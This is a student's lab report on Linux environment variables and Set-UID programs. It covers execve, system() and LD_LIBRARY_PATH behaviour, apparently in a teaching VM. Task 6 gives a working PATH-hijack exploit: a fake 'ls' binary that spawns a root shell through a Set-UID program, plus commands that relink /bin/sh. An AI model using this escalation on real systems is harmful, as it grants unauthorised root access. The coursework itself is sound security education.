 # CIS 751 Lab Assignment 1

## Task 1
We can view, set, and unset shell variables as shown in Figure 1. In addition to the `printenv` command, we can also use `grep` as follows:
```sh
env | grep "LOGNAME"
```

![Task 1](./Screenshots/task1.png)

## Task 2

## Task 3
Initially, the program called `execve()` in the following way:
```c
execve("/usr/bin/env", argv, NULL);
```

The `execve` function receives it's environment variables from the caller. As described in the documentation, the signature for `execve` is:
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

Where `envp` are environment variables passed by the caller to the new process.

The initial program called
```c
execve("/usr/bin/env", argv, NULL);
```

Which passes `NULL` for the environment variables. As seen in Figure 2, this results in nothing being printed when `/usr/bin/env` is called.

The updated program called
```c
execve("/usr/bin/env", argv, environ);
```

Which passes the environment variables in `environ` (the parent's environment variables) to the new process. We observe that the parent process's environment variables are correctly passed to the child and thus printed when `/usr/bin/env` is called.


![Task 3](./Screenshots/task3.png)

## Task 4
Unlike `execve()`, `system()` inherits it's environment variables from it's parent. When `system()` spawns a new shell to execute the `env` command, we expect `env` to run in an environment that contains all of the parent process's environment variables. As expected, these are printed when the following line is executed:
```c
system("/usr/bin/env");
```

![Task 4](./Screenshots/task4.png)

## Task 5
To set this up, the following shell variables were created (or modified):
```sh
export PATH = my_path:$PATH
export MY_VAR=foo
export LD_LIBRARY_PATH=my_linker_path
```
The program was then run and output was put in `task5_output`. The resulting file was then searched using 
```sh
grep <VARIABLE> task5_output
```
Figure 5 shows the output of this. As is evident, the `MY_VAR` and `PATH` variables were inherited by the child process, and are thus present in the output file. However, the `LD_LIBRARY_PATH` variable is not present. This is a security feature where certain environment variables are not passed to the child if it is created in a Set UID context.

![Task 5a](./Screenshots/task5.png)

We can test this by removing the Set UID bit and re-running the experiment. As is shown in Figure 6, the `LD_LIBRARY_PATH` variable is inherited by the child.

![Task 5b](./Screenshots/task5_b.png)

## Task 6
In this exercise, we will exploit the program calling `ls` and use it to generate a root shell. As described in the lab, we first need to setup the following symbolic link:
```sh
$ sudo rm /bin/sh
$ sudo ln -s /bin/zsh /bin/sh
```

The `PATH` variable is updated to contain the current directory and exported as follows:
```sh
export PATH=/home/seed:$PATH
```

We then compile the following program with the name `ls` in the "/home/seed" directory.
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("I am a malicious version of ls!!!!\n");
    printf("I will now spawn a root shell!\n");
    system("/bin/sh");
    return 0;
}
```

*Note that the task6 program was given the owner root and the set UID bit.*

As is shown in Figure 7, we get a root shell when the task6 program is run. This occurs because the system will search the directories described in `PATH` to find the `ls` command when run. Since our directory preceeds everything else, it will find a match to our version of `ls` and execute that, spawning a shell in a Set UID context.

![Task 6](./Screenshots/task6.png)
